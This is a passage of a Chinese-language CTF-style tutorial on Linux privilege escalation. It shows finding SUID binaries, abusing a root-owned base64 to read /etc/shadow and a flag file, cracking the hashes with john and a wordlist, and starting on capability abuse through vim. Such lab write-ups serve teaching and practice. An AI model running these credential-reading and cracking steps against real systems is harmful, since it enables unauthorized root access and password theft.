 ```
find / -type f -perm -04000 -ls 2>/dev/null
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3812123f8041b19d944632ab0a2d67.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a462431a0c7c40b89faaf6f79e55d07d.png)
我们可以以root权限执行base64命令
```
base64 /etc/shadow | base64 --decode
```
我们加密一个文件内容后，再解密显示出来，不就是读取任意文件了
![在这里插入图片描述](https://img-blog.csdnimg.cn/4ce3fb70838d418fb733a98f3a52a84d.png)
将此文档内容复制下来后，我们可以用john爆破密码
## john爆破账号密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/bbb8454982214c328959ec0f14ed9fd1.png)
保存后使用john
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fe8cc9d438e6495f82738171362b2009.png)
这里我们爆破了三个用户的账号密码，我们可以一个一个登录上去，继续提权到root用户

或者我们直接读flag文件
```
find / -name “flag*.*”
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/31249bdfc27d40c4a364ca5de9993a11.png)
这里我们直接cat文件是没有权限的，我们使用以下命令
```
base64 /home/ubuntu/flag3.txt | base64 --decode
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/86594876b4fa44c3b3298876a90cd12f.png)
我们可以直接看到文件里的内容
## 总结
suid提权，主要还是熟悉各种命令的使用，通过某个能以root权限运行的命令来想办法提权
# Capabilities提权
Capabilities为root进行更加细粒度的划分。如果进程不是特权进程，而且也没有root的有效id，系统就会去检查进程的capabilities，来确认该进程是否有执行特权操作的的权限。
我们使用以下命令来列出启用Capabilities的工具
```
getcap -r / 2>/dev/null
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5583c4f3ff65426b87fa424de3ce9cad.png)
我们可以看到，vim启用了capabilities，它被赋予了cap_setuid+ep
我们去搜索vim的提权方法

https://gtfobins.github.io/
